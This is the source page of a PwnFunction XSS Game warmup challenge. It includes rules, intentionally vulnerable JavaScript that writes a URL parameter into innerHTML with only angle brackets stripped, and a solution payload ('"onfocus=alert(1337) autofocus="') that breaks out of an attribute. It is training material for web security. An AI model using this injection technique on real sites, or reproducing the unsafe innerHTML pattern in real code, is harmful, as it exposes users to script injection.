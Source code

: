```yaml
---
title: "XSS Game - Ugandan Knuckles | PwnFunction"
header: "Ugandan Knuckles"
challengeUrl: "https://sandbox.pwnfunction.com/warmups/da-wey.html"
date: 2020-01-19T18:11:02+05:30
draft: false
type: warmup
difficulty: Easy
---
```


{{< rules >}}
<li>Difficulty is <b>Easy</b>.</li>
<li>Pop an <code>alert(1337)</code> on <code>sandbox.pwnfunction.com</code>.</li>
<li>No user interaction.</li>
<li>Cannot use <code>https://sandbox.pwnfunction.com/?html=&js=&css=</code>.</li>
<li>Tested on <b>Chrome</b>.</li>
{{</ rules >}}

{{< code >}}<code class="language-markup">&#x3C;!-- Challenge --&#x3E;
&#x3C;div id=&#x22;uganda&#x22;&#x3E;&#x3C;/div&#x3E;
&#x3C;script&#x3E;
    let wey = (new URL(location).searchParams.get(&#x27;wey&#x27;) || &#x22;do you know da wey?&#x22;);
    wey = wey.replace(/[&#x3C;&#x3E;]/g, &#x27;&#x27;)
    uganda.innerHTML = &#x60;&#x3C;input type=&#x22;text&#x22; placeholder=&#x22;${wey}&#x22; class=&#x22;form-control&#x22;&#x3E;&#x60;
&#x3C;/script&#x3E;</code>{{< /code >}}

{{< solution >}}
<p>The GET parameter <code>wey</code> becomes a part of the <code>uganda.innerHTML</code>, but
    before that it filters a bunch of characters out.
    <pre class="solution-code-block"><code class="language-js">wey = wey.replace(/[<>]/g, '')</code></pre>
    The lesser-than(&lt;) & greater-than(&gt;) characters are removed, this means we
    can't
    create
    new tags. But quotes are not removed, so we can break out of the <code>placeholder</code>
    and inject some attributes. Since we can't have user interactions, we can use
    <code>onfocus</code> event handler and then autofocus the input to trigger your code.
</p>

<pre class="solution-code-block"><code class="language-js">"onfocus=alert(1337) autofocus="</code></pre>
{{< /solution >}}